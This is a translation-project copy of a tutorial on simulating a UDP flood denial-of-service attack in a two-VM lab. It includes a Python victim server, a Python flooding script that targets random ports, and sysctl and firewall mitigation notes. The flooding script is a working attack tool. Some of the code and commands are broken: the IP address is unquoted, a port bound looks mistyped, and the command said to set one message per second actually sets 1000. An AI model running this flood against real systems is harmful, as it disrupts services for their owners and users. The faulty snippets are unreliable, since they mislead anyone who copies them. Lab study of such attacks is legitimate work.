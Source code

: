 > * 原文地址：[How to simulate a UDP Flood DoS attack on your computer](https://levelup.gitconnected.com/how-to-simulate-a-udp-flood-dos-attack-on-your-computer-863b40c44f3f)
> * 原文作者：[RiccardoM](https://medium.com/@riccardom)
> * 译文出自：[掘金翻译计划](https://github.com/xitu/gold-miner)
> * 本文永久链接：[https://github.com/xitu/gold-miner/blob/master/article/2020/how-to-simulate-a-udp-flood-dos-attack-on-your-computer.md](https://github.com/xitu/gold-miner/blob/master/article/2020/how-to-simulate-a-udp-flood-dos-attack-on-your-computer.md)
> * 译者：
> * 校对者：

# How to simulate a UDP Flood DoS attack on your computer

#### Everything you need to reproduce a UDP Flood Denial of Service attack with two virtual machines

![](https://cdn-images-1.medium.com/max/12048/0*5IXgILaawtazZ2Tx)

**Disclaimer: The following tutorial has only educational purposes. Perform the attack only on computers you own.**

A UDP Flood is a Denial of Service attack where the attacker sends a large number of **UDP** (User Datagram Protocol) packets towards a victim server, in order to overwhelm the server’s ability to process and respond to incoming traffic.

The attacker sends packets to the server’s IP address, choosing **random ports** as the destination. When the server receives a packet:

1. it checks if an application is listening at the specified port
2. it sees that no application is listening; this happens most of the times, as destinations are random ports
3. it responds with an **ICMP Destination Unreachable** packet

The attacker’s IP address can possibly be spoofed to prevent both their identification and the saturation of their own resources by the ICMP responses.

---

## Setup

In order to simulate this attack you need two virtual machines. Network cards must be configured to have their own address in the subnet. I used VirtualBox, with two instances of BunsenLabs, which is very lightweight. They are configured with a network card in bridged mode. Here are the requirements for each of the virtual machines:

* an **attacker** with python3
* a **victim** with python, version 3.7 or greater

---

#### Server configuration

We will run a simple HTTP server to verify that there is a drop in performance while the server is under attack. Below is the server written in Python.

```
import sys
import time
import random
from http.server import ThreadingHTTPServer, BaseHTTPRequestHandler

class DefaultHTTPHandler(BaseHTTPRequestHandler):

  def do_GET(self):
    self.send_response(200)
    self.send_header('Content-type', 'text/plain')
    self.send_header("Cache-Control", "no-cache")
    self.end_headers()

    n = random.randint(1e7,1e8)
    self.wfile.write((("{} is " + ("" if is_prime(n) else "not ") + "a prime number").format(n)).encode("utf-8"))

def base_http_server_start(address="0.0.0.0", port=80):
    handler = DefaultHTTPHandler
    address = (address, port)
    server = ThreadingHTTPServer(address, handler, bind_and_activate=False)
    server.server_bind()
    server.server_activate()
    server.serve_forever()

def is_prime(num):
    res = True
    for i in range(2, num - 1):
        if num % i == 0:
            res = False
    return res

if __name__ == '__main__':
    print("Starting HTTP server on port 80")
    base_http_server_start()
```

This server can be reached at localhost:80. What it does is to pick a very large random number and check if it is a prime number via a deliberately very inefficient function. Thanks to this mechanism it is possible to roughly estimate the response time of the server by reloading the browser page. Response times vary from the computational capacity of your hardware, but on average they should be around 5–10 seconds.

#### Attack script

We can perform the attack with the following Python script, using sockets.

```
import time
import socket
import random
import sys

victim_ip = 192.168.1.10
duration = 60 # in seconds

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

msg = bytes(random.getrandbits(10))
timeout = time.time() + duration
sent_packets = 0

while time.time() < timeout:
  victim_port = random.randint(1025, 65356)
  sock.sendto(msg, (victim_ip, victim_port))
  sent_packets += 1
```

In this script we can specify the IP address of our victim and the duration of the attack. Each time we send a packet we choose a different port, as explained above.

---

## The attack

To execute the attack we run the server and check its performance with the method described above. Next, from the attacker’s virtual machine, we run the script that performs the attack. When the machine is under attack we can see an increase in CPU usage as it is busy processing incoming traffic and responding with ICMP Destination Unreachable packets.

We can then proceed to reload the browser page and count the response time of the server. It is therefore easy to see that server performance has deteriorated significantly. The response time should be at least twice as long as under normal conditions.

---

## Mitigation

#### Linux settings

It is very difficult to mitigate a UDP Flood attack. It is possible to change the number of ICMP packets that the operating system sends every second. We can use these two commands in Linux, for example:

```
sudo sysctl -w net.ipv4.icmp_ratelimit=0
sudo sysctl -w net.ipv4.icmp_msgs_per_sec=1000
```

The first command causes the rate at which ICMP responses are sent to be set only by the parameter of the second command. In this case, therefore, with the second command, we set a rate of 1000 ICMP messages per second.

We can easily verify this by launching the attack for 10 seconds and using Wireshark on the server’s virtual machine to intercept the ICMP packets that are sent in response. We can see that in 10 seconds about 10.000 ICMP packets are sent, which is correct since we set the rate to 1000 packets per second.

![10.000 packets captured with Wireshark during a 10 seconds attack](https://cdn-images-1.medium.com/max/2000/1*Kb3xNdtJxxD0L87W9i3IJg.png)

We can try to change this parameter and check with Wireshark how the number of packets sent during 10 seconds changes. For example by indicating a rate of 1 message per second we can capture about 10 messages.

```
sudo sysctl -w net.ipv4.icmp_msgs_per_sec=1000
```

![10 packets captured with Wireshark during a 10 seconds attack](https://cdn-images-1.medium.com/max/2000/1*3MVskJJFtm4wKB4kT5GiYg.png)

The difficult part is choosing an appropriate value for these parameters. The optimal value depends on the hardware we have available, on our application, on the average traffic our server interacts with. If we lower the number of responses sent every second we clearly decrease the load on the server, since many more incoming requests are simply dropped, without sending the ICMP response packet and therefore using less resources. However, by lowering this parameter we run a greater risk of rejecting even legitimate requests and of not processing and managing traffic that does not come from an attack, but from real users of our server. It is therefore necessary to find a compromise to balance the two aspects.

#### Firewalls

We can also try to defend ourselves against this attack using firewalls. A firewall can block UDP packets before they reach the server. This way the server resources are not used at all. However, firewalls are also vulnerable to this type of attack: they have to process incoming traffic and they could become a bottleneck during the attack. Furthermore, if we use a stateful firewall we can easily block an attack if it always comes from the same IP address, but if the attacker spoofs their IP, all the state tables of the firewall could potentially be filled and all the available memory consumed. So firewalls are not always the solution.

---

## Conclusions

It is not difficult to simulate this type of attack in a few steps to better understand how it works. You can also explore its mitigation in more detail, trying different parameters, and eventually configuring the server. It is also interesting because it is a simple but powerful attack: as we have seen it is difficult to take effective countermeasures to stop it. If you are interested in a more complex attack based on UDP, take a look at [this](https://levelup.gitconnected.com/how-to-simulate-a-ntp-amplification-dos-attack-on-your-computer-72b3c6f60eb7) story, where I explain how to exploit an NTP server to amplify the traffic volume and saturate the victim’s bandwidth.

> 如果发现译文存在错误或其他需要改进的地方，欢迎到 [掘金翻译计划](https://github.com/xitu/gold-miner) 对译文进行修改并 PR，也可获得相应奖励积分。文章开头的 **本文永久链接** 即为本文在 GitHub 上的 MarkDown 链接。

---

> [掘金翻译计划](https://github.com/xitu/gold-miner) 是一个翻译优质互联网技术文章的社区，文章来源为 [掘金](https://juejin.im) 上的英文分享文章。内容覆盖 [Android](https://github.com/xitu/gold-miner#android)、[iOS](https://github.com/xitu/gold-miner#ios)、[前端](https://github.com/xitu/gold-miner#前端)、[后端](https://github.com/xitu/gold-miner#后端)、[区块链](https://github.com/xitu/gold-miner#区块链)、[产品](https://github.com/xitu/gold-miner#产品)、[设计](https://github.com/xitu/gold-miner#设计)、[人工智能](https://github.com/xitu/gold-miner#人工智能)等领域，想要查看更多优质译文请持续关注 [掘金翻译计划](https://github.com/xitu/gold-miner)、[官方微博](http://weibo.com/juejinfanyi)、[知乎专栏](https://zhuanlan.zhihu.com/juejinfanyi)。
